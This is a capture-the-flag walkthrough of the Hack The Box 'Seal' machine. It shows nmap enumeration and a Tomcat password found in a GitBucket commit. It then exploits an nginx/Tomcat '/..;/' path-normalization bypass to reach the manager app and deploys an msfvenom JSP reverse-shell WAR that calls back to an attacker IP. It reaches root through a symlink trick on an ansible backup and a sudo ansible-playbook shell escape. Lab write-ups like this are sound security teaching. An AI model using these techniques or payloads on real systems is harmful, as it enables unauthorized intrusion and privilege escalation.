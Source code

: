 ![](seal_banner.png)

<p align="right">   <a href="https://www.hackthebox.eu/home/users/profile/391067" target="_blank"><img loading="lazy" alt="x00tex" src="https://www.hackthebox.eu/badge/image/391067"></a>
</p>

# Enumeration

**IP-ADDR:** 10.10.10.250 seal.htb

**nmap scan:**
```bash
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 4b:89:47:39:67:3d:07:31:5e:3f:4c:27:41:1f:f9:67 (RSA)
|   256 04:a7:4f:39:95:65:c5:b0:8d:d5:49:2e:d8:44:00:36 (ECDSA)
|_  256 b4:5e:83:93:c5:42:49:de:71:25:92:71:23:b1:85:54 (ED25519)
443/tcp  open  ssl/http   nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Seal Market
| ssl-cert: Subject: commonName=seal.htb/organizationName=Seal Pvt Ltd/stateOrProvinceName=London/countryName=UK
| Not valid before: 2021-05-05T10:24:03
|_Not valid after:  2022-05-05T10:24:03
| tls-alpn: 
|_  http/1.1
| tls-nextprotoneg: 
|_  http/1.1
8080/tcp open  http-proxy
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.1 401 Unauthorized
|     Date: Mon, 19 Jul 2021 01:58:12 GMT
|     Set-Cookie: JSESSIONID=node011404vs9ar3yf13p0bynzm3e473256.node0; Path=/; HttpOnly
|     Expires: Thu, 01 Jan 1970 00:00:00 GMT
|     Content-Type: text/html;charset=utf-8
|     Content-Length: 0
|   GetRequest: 
|     HTTP/1.1 401 Unauthorized
|     Date: Mon, 19 Jul 2021 01:58:09 GMT
|     Set-Cookie: JSESSIONID=node0tb9dlbm6phenql9adikr4oaa73254.node0; Path=/; HttpOnly
|     Expires: Thu, 01 Jan 1970 00:00:00 GMT
|     Content-Type: text/html;charset=utf-8
|     Content-Length: 0
|   HTTPOptions: 
|     HTTP/1.1 200 OK
|     Date: Mon, 19 Jul 2021 01:58:10 GMT
|     Set-Cookie: JSESSIONID=node0lj0ulchztdazm08pgm1ft1e173255.node0; Path=/; HttpOnly
|     Expires: Thu, 01 Jan 1970 00:00:00 GMT
|     Content-Type: text/html;charset=utf-8
|     Allow: GET,HEAD,POST,OPTIONS
|     Content-Length: 0
... [snip] ...
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  Server returned status 401 but no WWW-Authenticate header.
|_http-title: Site doesn't have a title (text/html;charset=utf-8).
```

* Host os is **Ubuntu Focal** from [OpenSSH 8.2p1 Ubuntu 4ubuntu0.2](https://launchpad.net/ubuntu/+source/openssh/1:8.2p1-4ubuntu0.2)
* Get **Hostname:** `seal.htb` from https server ssl certificate.
* Viewing ssl certificate found **Email address:** `admin@seal.htb`

**Port 8080** Running "[GitBucket](https://bitbucket.org/product)"

![](screenshots/port8080-gitbucket.png)

Create new accoount and login, found some "root" user repositories

![](screenshots/git-repos.png)

**Information collected from gitbucket repositories**
* Found 2 Users `Infra Admin:alex@seal.htb` and `Core Dev:luis@seal.htb`
  * `alex`
  * `luis`
* `seal_market` repository contians source code for application running on https server.
* From on of the `seal_market` repository commit found **Tomcat credential:** `tomcat:42MrHBf*z8{Z%`
* successfully logged in as user "`luis`" with tomcat passowrd "`42MrHBf*z8{Z%`".
* from nginx config `/root/seal_market/blob/master/nginx/sites-enabled/default`, nginx server worked as a proxy and redirect https server to local tomcat server `/root/seal_market/blob/master/tomcat/server.xml`. 
* From `/root/seal_market/blob/master/nginx/sites-enabled/default`
  * There are 3 locations on the server 
    * Tomcat manager: `/manager/html` and `/host-manager/html`
    * seal_market app admin: `/admin/dashboard`
  * These locations only accessable mutual authentication, There is no registration and login features for accessing.
    * **[Mutual Authentication](https://www.docusign.com/blog/dsdev-mutual-tls-stuff-know):** The TLS handshake Certificate Request message is optionally sent by the server to the client. ... After sending the Certificate Request message and receiving a reply, the server verifies the client's certificate. When verification is successful, the server has authenticated the client.


# Foothold

## server url Parser Logic

This configuration colud bypass with `;` because of the Path Normalization bypass flaw.
* [Breaking Parser Logic! By Orange Tsai](https://www.youtube.com/watch?v=CIhHpkybYsY)
* [Tomcat specific](https://www.acunetix.com/vulnerabilities/web/tomcat-path-traversal-via-reverse-proxy-mapping/)

When we send request to a simple nginx server `/test1/../test2` it normalized to `/test2` and if we add anything with `..` like `/..!/` it will not and if we send `/..;/` reverse proxies will not normalize this sequence and send it to Apache Tomcat as it is. Tomcat will threat the sequence `/..;/` as `/../` and normalize the path while.

This can even bypass wtih `/;/manager/html`

![](screenshots/tomcat-manager.png)

Now, upload malicious war file and get reverse shell

Generate war file
```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.15.71 LPORT=4141 -f war > reverse.war
```

Intercept war file upload request in burp.

![](screenshots/upload-war.png)

edit the url and forward request

![](screenshots/intercept-war.png)

![](screenshots/war-deploy.png)

![](screenshots/rev-shell.png)

# Privesc

## `ansible-playbook` Command with sudo

In `/opt` directory, there is a `run.yml` that creating backup of `/var/lib/tomcat9/webapps/ROOT/admin/dashboard` direcotry and using `copy_links=yes` parameter and if check [ansible synchronize_module docs](https://docs.ansible.com/ansible/2.3/synchronize_module.html)

**`copy_links`** Copy symlinks as the item that they point to (the referent) is copied, rather than the symlink.

![](screenshots/ansible-sync.png)

And Two things we already have read access in user "luis" home folder and write access in `/var/lib/tomcat9/webapps/ROOT/admin/dashboard/uploads`.
```bash
(remote) tomcat@seal:/home$ ls -l 
total 4
drwxr-xr-x 9 luis luis 4096 May  7 07:01 luis
(remote) tomcat@seal:/home$ ls -l /var/lib/tomcat9/webapps/ROOT/admin/dashboard
total 92
drwxr-xr-x 5 root root  4096 Mar  7  2015 bootstrap
drwxr-xr-x 2 root root  4096 Mar  7  2015 css
drwxr-xr-x 4 root root  4096 Mar  7  2015 images
-rw-r--r-- 1 root root 71744 May  6 10:42 index.html
drwxr-xr-x 4 root root  4096 Mar  7  2015 scripts
drwxrwxrwx 2 root root  4096 May  7 09:26 uploads
```

and user "luis" home folder conatins .ssh direcotry.

we can symlinks `/home/luis/.ssh` in `/var/lib/tomcat9/webapps/ROOT/admin/dashboard/uploads` and when next backup created it will add `.ssh` direcotry
```bash
ln -s /home/luis/.ssh /var/lib/tomcat9/webapps/ROOT/admin/dashboard/uploads
```

![](screenshots/extract-files.png)

User "luis" can run `/usr/bin/ansible-playbook` as any user with sudo.
```bash
luis@seal:~$ sudo -l
Matching Defaults entries for luis on seal:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User luis may run the following commands on seal:
    (ALL) NOPASSWD: /usr/bin/ansible-playbook *
```

and `/usr/bin/ansible-playbook` this symlink to `ansible`
```bash
luis@seal:~$ ls -la /usr/bin/ansible-playbook
lrwxrwxrwx 1 root root 7 Mar 16  2020 /usr/bin/ansible-playbook -> ansible
```

found exploit in [gtfobins](https://gtfobins.github.io/gtfobins/ansible-playbook/)
```bash
TF=$(mktemp)
echo '[{hosts: localhost, tasks: [shell: /bin/sh </dev/tty >/dev/tty 2>/dev/tty]}]' >$TF
sudo /usr/bin/ansible-playbook $TF
```

![](screenshots/rooted.png)

